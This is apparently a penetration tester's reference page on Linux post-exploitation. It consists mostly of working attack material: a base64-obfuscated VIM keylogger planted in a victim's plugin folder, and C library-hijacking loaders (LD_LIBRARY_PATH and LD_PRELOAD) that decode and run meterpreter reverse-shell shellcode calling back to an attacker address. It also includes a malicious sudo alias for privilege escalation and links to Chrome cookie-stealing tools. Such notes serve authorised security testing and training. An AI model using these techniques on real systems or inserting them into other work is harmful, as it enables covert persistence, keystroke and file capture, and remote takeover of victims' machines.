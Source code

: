 ```yaml
---
description: General Post Exploitation
---
```


# Post Exploitation




## Linux

- [https://github.com/blendin/3snake](https://github.com/blendin/3snake)
- [https://github.com/hackerschoice/ssh-key-backdoor](https://github.com/hackerschoice/ssh-key-backdoor)



### VIM Keylogger

Create a malicious VIM config that will save contents of a modified file when ran with sudo:

{% code title="settings.vim" %}
```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/tmp0x031337
:endif
```
{% endcode %}

```
$ sudo -u victim mkdir -p /home/victim/.vim/plugin
$ sudo -u victim bash -c 'echo -n OmlmICRVU0VSID09ICJyb290Igo6YXV0b2NtZCBCdWZXcml0ZVBvc3QgKiA6c2lsZW50IDp3ISA+PiAvdG1wL3RtcDB4MDMxMzM3CjplbmRpZgo=|base64 -d > /home/victim/.vim/plugin/settings.vim'
```



### Shared Libraries Hijacking


#### `LD_LIBRARY_PATH`

* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/sharedLibrary_LD_LIBRARY_PATH.c](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/sharedLibrary_LD_LIBRARY_PATH.c)

For example, target executable will be `/usr/bin/top`.

Code skeleton:

{% code title="fakelib.c" %}
```c
#include <sys/mman.h>
#include <stdlib.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>

static void hijack() __attribute__((constructor));

// msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f c -o met.c --encrypt xor --encrypt-key a
unsigned char buf[] = 
"\x31\x33\...\x33\x37";

void hijack() {
	setuid(0);
	setgid(0);
	printf("Library hijacked!\n");
	int bufsize = (int)sizeof(buf);
	for (int i = 0; i < bufsize-1; i++) { buf[i] = buf[i] ^ 'a'; }
	intptr_t pagesize = sysconf(_SC_PAGESIZE);
	mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)), pagesize, PROT_READ|PROT_EXEC);
	int (*ret)() = (int(*)())buf;
	ret();
}
```
{% endcode %}

Get all shared libraries loaded by target executable:

```
$ ldd /usr/bin/top
...
libgpg-error.so.0 => /lib/x86_64-linux-gnu/libgpg-error.so.0
```

We'll be targeting the `libgpg-error.so.0` library. Include defined symbols of the original library in our malicious library:

```
$ readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g' >> fakelib.c
```

Create a map file with version information of defined symbols:

```
$ echo 'GPG_ERROR_1.0 {' > gpg.map
$ readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print $8}' | sed 's/@@GPG_ERROR_1.0/;/g' >> gpg.map
$ echo '};' >> gpg.map
```

Prepare the listener, compile, export `LD_LIBRARY_PATH` and run top:

```
$ gcc -Wall -fPIC -c -o fakelib.o fakelib.c
$ gcc -shared -Wl,--version-script gpg.map -o libgpg-error.so.0 fakelib.o
$ sudo LD_LIBRARY_PATH=/home/snovvcrash/ldlib top
```


#### `LD_PRELOAD`

* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/sharedLibrary_LD_PRELOAD.c](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/sharedLibrary_LD_PRELOAD.c)

For example, target executable will be `/bin/cp`.

Determine which functions are executed by `/bin/cp` via `LD_PRELOAD`:

```
$ ltrace cp
...
getuid()
...
```

We'll be hooking the `getuid()` function:

{% code title="evilgetuid.c" %}
```c
#define _GNU_SOURCE
#include <sys/mman.h>
#include <stdlib.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>

// msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f c -o met.c --encrypt xor --encrypt-key a
unsigned char buf[] = 
"\x31\x33\...\x33\x37";

uid_t geteuid(void)
{
		typeof(geteuid) *getuid_orig;
		getuid_orig = dlsym(RTLD_NEXT, "geteuid");

		if (fork() == 0) // if inside the forked process
		{
				setuid(0);
				setgid(0);
				printf("Function hooked!\n");

				int bufsize = (int)sizeof(buf);
				for (int i = 0; i < bufsize-1; i++) {
					buf[i] = buf[i] ^ 'a';
				}

				intptr_t pagesize = sysconf(_SC_PAGESIZE);
				if (mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)), pagesize, PROT_READ|PROT_EXEC)) {
						perror("mprotect");
						return -1;
				}

				int (*ret)() = (int(*)())buf;
				ret();
		}
		else // if inside the original process
		{
				printf("Returning from original...\n");
				return (*getuid_orig)();
		}

		printf("Returning from main...\n");
		return -2;
}
```
{% endcode %}

Compile:

```
$ gcc -Wall -fPIC -z execstack -c -o evilgetuid.o evilgetuid.c
$ gcc -shared -o evilgetuid.so evilgetuid.o -ldl
```

Create an evil alias to preserve environment variables when running `cp` with sudo (good candidates are `.bashrc` and `.bash_profile`):

```
alias sudo="sudo LD_PRELOAD=/home/victim/evilgetuid.so"
```

Run the target executable:

```
$ sudo cp /etc/passwd /tmp/passwd
```




## Browsers



### Chrome / Chromium

- [https://posts.specterops.io/stalking-inside-of-your-chromium-browser-757848b67949](https://posts.specterops.io/stalking-inside-of-your-chromium-browser-757848b67949)


#### cookie_crimes

{% embed url="https://twitter.com/an0n_r0/status/1605714291717554185" %}

- [https://mango.pdf.zone/stealing-chrome-cookies-without-a-password](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password)
- [https://github.com/defaultnamehere/cookie_crimes](https://github.com/defaultnamehere/cookie_crimes)


#### CursedChrome

- [https://www.ired.team/offensive-security/lateral-movement/man-in-the-browser-via-chrome-extension](https://www.ired.team/offensive-security/lateral-movement/man-in-the-browser-via-chrome-extension)
- [https://github.com/mandatoryprogrammer/CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome)
